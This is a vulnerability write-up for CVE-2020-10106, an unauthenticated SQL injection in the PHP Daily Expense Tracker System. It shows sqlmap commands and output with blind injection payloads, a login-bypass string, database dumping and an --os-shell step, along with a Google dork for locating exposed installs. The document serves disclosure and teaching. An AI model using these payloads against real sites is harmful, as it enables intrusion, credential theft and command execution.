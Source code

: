 ```yaml
---
title: "CVE-2020-10106"
date: "2020-03-04"
categories: 
  - "writeups"
tags: 
  - "cve"
---
```


Daily Expense Tracker System (DETS) is vulnerable to SQL injection. This post will be a brief write up about discovery and exploitation of CVE-2020-10106. These vulnerabilities exist in the Daily Expense Tracker System project version 1, which you can download from PHPGurukul, [here](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/). 

According to PHPGurukul's website, this application has been downloaded 499 times - at time of vulnerability discovery. Using Google Dorks method of `intitle:"Daily Expense Tracker - Login"` there are some sites which could be vulnerable - unknown without confirmation.

* * *

## Discovering the Vulnerability

I installed the DETS application using Bitnami XAMPP for Linux (aka LAMPP). The user lands on a login page within index.php. After static code analysis, it appeared that the SQL query could be vulnerable. More specifically, the email parameter. I believe that the password parameter is not vulnerable to SQL injection is because user input is hashed on the client side. This means that SQL injction payloads will be hashed and therefore cannot be interpreted by the SQL engine as special characters. The same cannot be said about the email parameter, which directly takes user input in the SQL query.

<figure>

![](images/image-1024x442.png)

<figcaption>

index.php contents

</figcaption>

</figure>

* * *

## Verifying the Vulnerability

I captured a login request with Burpsuite and exported it to a file, which allows further investigation using sqlmap.

<figure>

![](images/image-1.png)

<figcaption>

Login request

</figcaption>

</figure>

<figure>

![](images/image-2-1024x562.png)

<figcaption>

sqlmap output

</figcaption>

</figure>

I appreciate that the sqlmap output could be squashed a lot in this instance. Here is the key information:

```
$ sqlmap -r <login-request-file> --dbms=mysql 

sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests: 

---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    payload: email=oliver@frostylabs.net' AND (SELECT 7366 FROM (SELECT(SLEEP(5)))NgAy) AND 'KQtM'='KQtM&password=p4ssw0rd&login=login
---
```

The application is vulnerable to unauthenticated time-based SQL injection. Using sqlmap's `--dump` flag, it is possible to dump the users table, and the associated account hash.

<figure>

![](images/image-3.png)

<figcaption>

tables

</figcaption>

</figure>

<figure>

![](images/image-4-1024x146.png)

<figcaption>

tbluser contents

</figcaption>

</figure>

When using valid credentials in the sqlmap query, it is possible to perform a boolean based SQL injection.

```
---
parameter: email (POST) 
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=test@gmail.com' AND 7009=7009 AND 'wGtm'='wGtm&password=123&login=login
---
```

* * *

## Further Exploitation

In addition to `index.php`, the same vulnerabilities as described above exist in `register.php` and `forgot-password.php`.

In addition to the Blind SQL injection, using the following payload allows for a complete bypass of the login prompt. However, the login prompt requires that an email is input, otherwise the user is not permitted to submit the form. This is overcame by intercepting the POST request, and altering the query. The HTTP 302 response as seen in the image below proves that the SQL injection has been successful.

```
a' OR '1'='1'; -- -
```

<figure>

![](images/image-12-1024x249.png)

<figcaption>

SQL Injection Authentication Bypass

</figcaption>

</figure>

* * *

### Bonus

It is possible to leverage the SQL injection vulnerability to get remote command execution. However, the RCE vulnerability depends on SQLi therefore in my opinion the web application is not directly vulnerable to RCE, but rather RCE through SQLi. SQLMap is able to obtain this with the `--os-shell` flag.

```
$ sqlmap -r <login-request-file> --dbms=mysql --os-shell
```

<figure>

![](images/image-5-1024x673.png)

<figcaption>

Spawn a pseudo shell

</figcaption>

</figure>
